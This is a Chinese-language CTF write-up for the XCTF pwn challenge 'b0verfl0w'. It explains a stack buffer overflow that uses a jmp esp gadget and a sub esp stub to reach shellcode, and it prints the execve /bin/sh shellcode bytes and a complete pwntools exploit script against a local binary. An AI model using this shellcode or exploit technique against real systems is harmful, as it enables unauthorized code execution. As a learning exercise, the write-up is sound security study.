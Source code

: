 ```yaml
---
title: xctf b0verfl0w
description: write up
date: 2021-09-13 15:44:33
categories:
 - PWN
---
```




# x_ctf_b0verfl0w

栈可执行

![image-20210913154533194](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/image-20210913154533194.png)

fgets可以输入50个字节，padding就占了32了，还有ebp，ret就剩10字节了，无法写入shellcode，那么我们可以考虑在栈的初始位置布置一段shellcode，然后让程序跳转到栈的起始处执行shellcode

![image-20210913154545798](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/image-20210913154545798.png)

可以看到0x08048504为jmp esp的gadgets

![image-20210913155034057](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/image-20210913155034057.png)

那么payload就可以写成

```python
jmp_esp = 0x08048504
sh = "\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sub_esp_jmp = asm('sub esp,0x28;jmp esp')
payload = sh + 'a' * (0x24-len(sh)) + p32(jmp_esp) + sub_esp_jmp
```

执行jmp esp，同时esp+4，eip指向esp，也就是指向sub esp,0x28;jmp esp，这样就可以劫持esp，跳转执行shellcode

学习点：jmp esp --> esp+4  eip=esp

```python
from pwn import *

p = process('./b0verfl0w')

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

jmp_esp = 0x08048504
sh = "\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sub_esp_jmp = asm('sub esp,0x28;jmp esp')
payload = sh + 'a' * (0x24-len(sh)) + p32(jmp_esp) + sub_esp_jmp
sa('your name?\n',payload)
shell()
```

